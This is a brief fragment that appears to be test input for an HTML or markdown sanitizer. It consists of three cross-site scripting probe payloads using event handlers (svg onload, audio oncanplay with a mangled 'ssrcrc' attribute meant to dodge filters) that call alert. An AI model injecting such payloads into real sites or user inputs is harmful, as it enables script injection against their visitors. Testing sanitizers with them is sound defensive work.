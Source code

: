 #<h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source ssrcrc="validaudio.wav" type="audio/wav"></audio>







